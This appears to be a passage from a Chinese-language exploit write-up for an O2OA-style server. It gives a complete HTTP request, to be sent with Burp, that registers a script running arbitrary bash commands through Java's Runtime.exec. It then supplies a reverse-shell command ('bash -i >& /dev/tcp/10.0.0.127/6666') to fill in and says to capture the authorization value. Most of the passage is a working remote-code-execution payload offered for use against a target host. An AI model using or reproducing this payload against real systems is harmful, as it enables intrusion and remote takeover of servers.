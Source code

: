 我们在此使用burp抓包然后伪造并发送此poc：

```http
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Host: [your target host]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: [your authorization]
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 475

{"name":"abc","id":"abc","alias":"","description":"","isNewInvoke":true,"text":"\n\nvar s = [3];\ns[0] = \"/bin/bash\";\ns[1] = \"-c\";\ns[2] = \"[command]\";\nvar p = java.lang.Runtime.getRuntime().exec(s);\nvar sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\nvar result = sc.hasNext() ? sc.next() : \"\";\nsc.close();","enableToken":false,"enable":true,"remoteAddrRegex":"","lastStartTime":"","lastEndTime":"","validated":true}
```

[command]中填写反弹shell命令

```
bash -i >& /dev/tcp/10.0.0.127/6666 0>&1\
```

点击接口配置后抓到的包：

![image-20230217112229092](2024-02-13/image-20230217112229092.png)

获取authorization的值

